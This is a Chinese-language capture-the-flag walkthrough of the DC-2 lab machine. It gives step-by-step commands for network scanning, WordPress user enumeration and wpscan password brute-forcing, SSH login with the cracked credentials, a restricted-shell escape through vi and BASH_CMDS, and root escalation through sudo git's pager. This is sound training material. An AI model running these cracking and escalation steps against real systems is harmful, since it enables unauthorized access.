


# DC - 2

---

# 一、信息收集

---

先使用arp-scan确定靶机的IP地址，使用的命令如下

```bash
arp-scan -l
```

​​

通过扫描结果可以得到靶机的IP地址为192.168.23.137，接下来使用nmap扫描开放的端口，命令如下

```bash
nmap -A -p- 192.168.23.137
```

​​

可以看到靶机开放了靶机的端口为80，7744端口，80为HTTP服务，7744为ssh服务

---

# 二、FLAG1

---

使用浏览器访问靶机的IP地址，结果如下

​​

发现重定向到域名dc-2，修改本地hosts文件，添加ip对应域名

> windows路径：C:\Windows\System32\drivers\etc\hosts
>
> linux路径：etc/hosts

​​

修改后成功访问，仔细观察看到右下角有一个FLAG1，如下

​​

---

# 三、FLAG2

---

FLAG1提示：“Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.”

意思应该就是用cewl

> Cewl是一款采用Ruby开发的应用程序，你可以给它的爬虫指定URL地址和爬取深度，还可以添额外的外部链接，接下来Cewl会给你返回一个字典文件，你可以把字典用到类似John the Ripper这样的密码破解工具中。除此之外，Cewl还提供了命令行工具。

先使用cewl收集靶机的信息，命令如下

```bash
cewl http://dc-2 -w passwd.txt
```

​​

有了密码和字典，接下来就是找到登陆页面进行爆破，使用dirsearch工具进行扫描，命令如下

```bash
dirsearch -u http://dc-2/
```

​​

通过结果可以得到后台登陆页面的路径如下

```bash
http://dc-2/wp-admin/
```

​​

可以看到这是一个wordpress网站，Wordpress有一个著名的扫描工具wpscan，目前我们还差一个用户名的字典，使用`wpscan`​获取用户名的字典，命令如下

```bash
wpscan --url http://dc-2/ -e u 
```

​​

​​

保存枚举出来的3个账号，命名为users.txt

​​

完成后，使用wpscan爆破账号密码，命令如下

```bash
wpscan --url http://dc-2/ -U users.txt -P passwd.txt
```

​​

​​

可以看到出来了两组密码

```bash
jerry / adipiscing                                                                   
tom / parturient  
```

使用第一个用户名和密码成功登陆

​​

成功发现flag2

​​

# 四、FLAG3

---

FLAG2提示:“If you can’t exploit WordPress and take a shortcut, there is another way.Hope you found another entry point.”

意思就是要我们尝试其他方法了，前面nmap扫描得到一个ssh端口，而且还用另外一个用户名和密码不知道是哪里的，尝试使用ssh登录，命令如下

```bash
ssh tom@192.168.23.137 -p 7744 
```

成功登陆

​​

成功发现flag3，尝试登陆发现被“rbash”限制了，查看可以使用的指令，命令如下

```bash
compgen -c
```

​​

发现存在vi命令，使用vi命令读取flag3，如下

​​

---

# 五、FLAG4

---

提示:“Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.”

提到了tom和jerry和su，应该是让我们提权，然后去看看jerry和su

vi可以用 有一个vi的提权

```bash
vi随便打开文件
再下面添加
:set shell=/bin/sh
:shell
```

​​

​​

发现了flag4，使用vi查看，如下

​​

获得flag4

---

# 六、FLAG5

---

提示：”Good to see that you’ve made it this far - but you’re not home yet.You still need to get the final flag (the only flag that really counts!!!).No hints here - you’re on your own now. :-)Go on - git outta here!!!“

前面FLAG3有提示su。我们去看看root目录,发现切不了，尝试进一步提权，先查看有没有命令可以使用

```bash
find / -perm -u=s -type f 2>/dev/null
```

发现还是被rbash，尝试绕过，网上找到了个rbash环境变量的绕过方法，如下

```bash
export -p        //查看环境变量
BASH_CMDS[a]=/bin/sh;a         //把/bin/sh给a
/bin/bash
export PATH=$PATH:/bin/         //添加环境变量
export PATH=$PATH:/usr/bin      //添加环境变量
```

​​

​​

看到有个sudo，我们看看啥有sudo权限的，命令如下（先切换到Jerry）

```bash
sudo -l
```

​​

git是root权限，尝试git提权

```bash
(我们需要将shell的窗口变窄,使得回显信息不能一页显示)
1、sudo git help config #在末行命令模式输入 
!/bin/bash 或 !'sh' #完成提权 
2、sudo git -p help 
!/bin/bash #输入!/bin/bash，即可打开一个用户为root的shell
```

​​

​​

提权成功 获得root权限，切换到root目录下，成功得到flag5

​​

‍
